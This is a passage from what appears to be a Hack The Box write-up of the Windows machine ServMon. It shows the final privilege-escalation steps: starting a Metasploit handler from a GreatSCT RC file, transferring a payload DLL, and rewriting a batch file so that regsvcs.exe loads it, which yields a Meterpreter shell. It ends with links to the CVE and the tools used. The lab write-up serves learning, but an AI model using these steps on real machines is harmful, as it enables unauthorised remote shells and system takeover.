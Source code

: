 Then we can run **metasploit** with the generated RC file:

```bash
$ msfconsole -r /usr/share/greatsct-output/handlers/serv.rc
```

After that, we have to transfer the `serv.dll` file using either `scp` or `wget` or whatever.

Finally, we have to change `C:\Temp\shell.bat`'s content:

```cmd
nadine@SERVMON C:\Temp> cmd /c "echo C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe C:\Temp\serv.dll > C:\Temp\shell.bat"
```

Go to `Console`, run **shell**, and you'll get this beautiful message: `Meterpreter session 1 opened` 

![](https://i.imgur.com/vRU0Fum.gif)

![](/assets/img/htb/machines/windows/easy/servmon/system.png)


___

## Useful links

- <https://nvd.nist.gov/vuln/detail/CVE-2019-20085>
- <https://eternallybored.org/misc/netcat/>
- [GreatSCT](https://github.com/GreatSCT/GreatSCT)